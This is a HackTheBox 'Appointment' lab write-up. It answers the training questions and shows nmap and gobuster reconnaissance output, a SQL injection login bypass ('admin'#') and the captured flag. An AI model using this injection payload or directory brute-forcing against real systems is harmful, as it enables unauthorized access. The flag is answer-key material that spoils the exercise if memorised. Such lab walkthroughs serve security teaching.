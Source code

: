 ```yaml
---
title: 🔵 HTB - Appointment
date: 2023-08-17
categories: [HackTheBox, Machines]
tags: [nmap, gobuster, sqli]
---
```


What does the acronym SQL stand for?

`Structured Query Language`

What is one of the most common type of SQL vulnerabilities?

`sql injection`

What is the 2021 OWASP Top 10 classification for this vulnerability?

`A03:2021-Injection`

What does Nmap report as the service and version that are running on port 80 of the target?

`Apache httpd 2.4.38 ((Debian))`

What is the standard port used for the HTTPS protocol?

`443`

What is a folder called in web-application terminology?

`directory`

What is the HTTP response code is given for 'Not Found' errors?

`404`

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

`dir`

What single character can be used to comment out the rest of a line in MySQL?

`#`

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

`Congratulations`

Submit root flag

```bash
$ nmap -sV -p- <ip>
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

$ gobuster dir -u <ip>:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/images               (Status: 301) [Size: 317] [--> http://10.129.146.191/images/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.146.191/css/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.146.191/js/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.146.191/vendor/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.146.191/fonts/]
/server-status        (Status: 403) [Size: 279]
...

$ firefox <ip>:80 &
```

login: `admin'#`

password: `abc`

flag: `e3d0796d002a446c0e622226f42e9672`
